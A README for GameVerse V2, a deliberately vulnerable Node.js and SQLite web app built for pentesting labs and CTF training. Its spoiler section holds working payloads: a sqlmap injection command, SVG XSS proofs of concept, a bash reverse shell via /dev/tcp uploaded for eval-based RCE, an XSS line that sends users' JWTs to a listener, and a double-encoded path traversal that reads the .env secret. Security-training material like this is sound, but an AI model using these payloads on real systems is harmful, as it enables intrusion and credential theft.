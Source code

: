 # GameVerse V2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

Frontend more or less vibe-coded, enjoy the looks :)
Feel free to use for whatever reason

> Do not deploy this server to a production or public environment.

![GameVerse logo](pic.png)

---

## Features

- User authentication with JWT
- SQLite database
- File upload
- Basic forum / comment system
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/ettelman/gameverse2eng.git
cd gameverse2eng
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

The server will run on [http://localhost:3333](http://localhost:3333)

---

### 2.1 Start with Docker

> Recommended for clean lab environments

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Vulnerabilities (spoilers!)</strong></summary>

### SQLi in `/users`
Example with sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --tables --risk 3 --level 5
```

---

### Plaintext passwords in the database

---

### XSS via avatar URL (using `<object>`)
Create SVG (POC):
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Embed the SVG like this when you send a message to another user:
```html
<object data="uploaded.svg" type="image/svg+xml"></object>
```

---

### Eval-based plugin RCE for admins
Create a .js file and upload it as an avatar with:
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```
Then access it with path traversal in the admin plugin system

---

### JWT exfiltration via XSS
Post the following in the forum section (example):
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
```
Then catch the the token with nc -lvnp 4444

---

### LFI in `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Double URL-encode – `../config/dev/.env`)
This leaks the JWT secret from the .env
</details>